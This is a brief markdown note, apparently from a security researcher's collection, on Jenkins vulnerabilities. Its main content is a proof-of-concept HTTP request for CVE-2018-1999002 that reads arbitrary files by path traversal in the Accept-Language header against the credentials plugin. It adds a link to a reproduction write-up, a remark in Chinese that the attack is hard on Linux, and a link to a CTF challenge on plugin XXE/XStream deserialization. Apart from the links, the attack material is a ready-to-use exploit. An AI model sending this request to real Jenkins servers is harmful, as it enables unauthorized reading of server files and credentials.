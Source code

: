 # Jenkins

## CVE-2018-1999002
poc
```
GET /plugin/credentials/.ini HTTP/1.1
Host:
Accept-Language: ../../../../../../../../windows/win
```
[Jenkins 任意文件读取漏洞复现与分析 - 【CVE-2018-1999002](https://chybeta.github.io/2018/08/07/Jenkins-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%E4%B8%8E%E5%88%86%E6%9E%90-%E3%80%90CVE-2018-1999002%E3%80%91/)

linux 下利用难度大 必须找一个存在`_`的目录




## 插件问题 xxe/xstream 反序列化
https://github.com/Firebasky/ctf-Challenge/tree/main/2021_xyb_easyJenkins
